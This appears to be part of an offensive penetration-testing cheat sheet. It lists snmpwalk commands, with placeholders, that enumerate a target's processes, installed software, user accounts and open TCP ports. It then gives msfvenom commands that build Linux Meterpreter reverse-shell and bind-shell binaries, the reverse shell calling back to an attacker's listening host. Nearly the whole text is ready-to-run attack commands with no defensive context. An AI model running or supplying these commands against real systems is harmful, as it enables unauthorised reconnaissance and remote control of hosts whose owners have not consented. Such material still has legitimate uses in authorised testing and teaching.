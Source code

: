 ###### Enumerate system processes:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.25.1.6.0
```

###### Enumerate running programs:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.25.4.2.1.2
```

###### Enumerate processes path:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.25.4.2.1.4
```

###### Enumerate storage units:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.25.2.3.1.4
```

###### Enumerate software name:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.25.6.3.1.2
```

###### Enumerate user accounts:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.4.1.77.1.2.25
```

###### Enumerate tcp local ports:
```
snmpwalk -c <community string> -<version> <target> 1.3.6.1.2.1.6.13.1.3
```

# MSFVenom

## List Payloads
```
msfvenom -l
```

## Binaries Payloads

###### Linux Meterpreter Reverse Shell:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```

###### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```
